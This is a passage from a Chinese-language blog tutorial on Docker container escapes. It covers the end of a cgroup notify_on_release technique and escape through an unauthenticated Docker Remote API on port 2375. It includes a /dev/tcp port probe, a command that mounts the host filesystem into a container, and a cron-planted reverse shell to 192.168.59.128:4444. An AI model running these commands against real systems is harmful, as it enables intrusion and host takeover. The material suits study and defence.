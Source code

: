 ```

# 将一个执行即退出的进程触发notify_on_release。
sh -c "echo \$\$ > $cgroup_dir/test_subsystem/cgroup.procs"
```

> 在特权模式下，容器内部可以执行任意系统调用，/sys和/proc路径都是可写的，容器可以获取真实的进程ID，用户ID，组ID等信息，还可以使用chroot等系统调用来改变容器环境。

## 远程API未授权访问逃逸

使用Docker Swarm时，管理的docker 节点上便会开放一个TCP端口2375/2376，绑定在0.0.0.0上，http访问会返回 404 page not found。这是 Docker RemoteAPI，可以执行docker命令，比如访问 http://x.x.x.x:2375/containers/json 会返回服务器当前运行的 container列表，和在docker CLI上执行 docker ps 的效果一样，其他操作比如创建/删除container，拉取image等操作也都可以通过API调用完成。

### 环境

在配置Docker启动文件时，添加了允许任何网段访问`Docker Remote API`。

![image-20240124142843398](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240124142843398.png)

### 检测

```
IP=`hostname -i | awk -F. '{print $1 "." $2 "." $3 ".1"}' ` && timeout 3 bash -c "echo >/dev/tcp/$IP/2375" > /dev/null 2>&1 && echo "Docker Remote API Is Enabled." || echo "Docker Remote API is Closed."
```

![image-20240124143031312](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240124143031312.png)

### 利用

```
docker -H tcp://192.168.59.128:2375 run -it -v /:/mnt nginx:latest /bin/bash
```

在容器内执行命令，将反弹shell的脚本写入到/var/spool/cron/root

```
echo '* * * * * /bin/bash -i >& /dev/tcp/192.168.59.128/4444 0>&1' >> /mnt/var/spool/cron/crontabs/root
```

> 利用这个方法，需要知道docker服务所在的ip
>
> 由于容器内无法执行docker操作，所以重新下载了docker.io

![image-20240124145812000](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240124145812000.png)

## SYS_Admin容器逃逸

### 条件

如果一个Docker容器的启动方式满足以下条件，攻击者在容器中就可以逃逸到宿主机上。

